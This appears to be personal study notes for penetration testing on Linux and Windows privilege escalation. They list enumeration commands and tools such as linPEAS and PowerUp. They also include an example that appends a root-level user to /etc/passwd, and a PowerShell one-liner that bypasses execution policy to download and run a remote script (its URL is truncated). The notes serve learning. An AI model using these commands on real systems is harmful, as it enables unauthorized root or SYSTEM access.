 ## Privilige Escalation

## Linux
### Exploits
- u usually have to compile kernel level exploits
- they are often in c
- have to get it on the target machine can be hard 
```shell
uname -a #print system information
```


### Linux Enumerate ways to escalate priviliges
- understand which linux kernel is running and search for privilege escalation exploits
- https://web.archive.org/web/20210308064709/blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/n/
- pspy: see processes that are running https://github.com/DominicBreuker/pspy
- 
```shell
sudo -l #shows rights or if user already

ps aux | grep root #check for processes running as root

/etc/passwd #check if you can write to it, than you can add you own password
#example
hacker:$1$Jx7ZfYxZ$wv6Z6zg1J7gZQ:0:0:root:/root:/bin/bash >> /etc/passwd # this creates that user

/etc/shadow #check if you can read it, than you can crack the passwords

#if user can execute a SUID binary
find / -perm -u=s -type f 2>/dev/null #find all SUID binaries (need to try if work like that)
# if there is a vulnerable binary you can exploit it

CRON jobs that runs as root


```

## Windows
- windows root is called system
- www.fuzzysecurity.com/tutorials/16.html
- https://book.hacktricks.xyz/windows/windows-local-privilege-escalation
- https://medium.com/bugbountywriteup/privilege-escalation-in-windows-380bee3a2842
### Exploits
- https://github.com/PowerShellMafia/PowerSploit
### Windows Enumerate ways to escalate priviliges
- powerup guide: https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/
- metasploit post modules (not all exploits work)
```shell
accesschk.exe /accepteula #check for service permissions
accesschk.exe -uwcqv "Authenticated Users" * #check for service permissions,

wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "c:\Windows\\" | findstr /i /v """     "
#check for services that are running as system

sc qc "VulnService" #check for service permissions 
# if you dont have permissions to stop the service you can try to  restart the machine hoply the service will start with system

#PowerUp:
powerUp.ps1 #script that checks for privilige escalations
# runs multiple checks
# Download it on target box
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http:// '"
# than run it, it give the function that can be abused
# and it can add the user
```

### Privilige Escalation Scripts
- read the script
- understand the output
- try with them
#### Pros
- does the work for you
- can find a lot of information in a short time
- easy to download and run
- finds stored passwords
#### Cons
- Information overload
- can be a crutch
- may find false positives

#### Linux Scripts
```shell
LinPeas # Great script takes a while to run
LinEnum.sh # excellent script
unix-privesc-check # comes with kali / not so good?
linuxprivchecker.py # if there is python 
```
#### Windows Scripts
```shell
windows-privesc-check.exe # from pentestmonkey
PowerUp.ps1 # is on kali,  powershell script for multiple checks
winPeas # maybe anti virus deletes it
SharpSploit # a .Net Script
```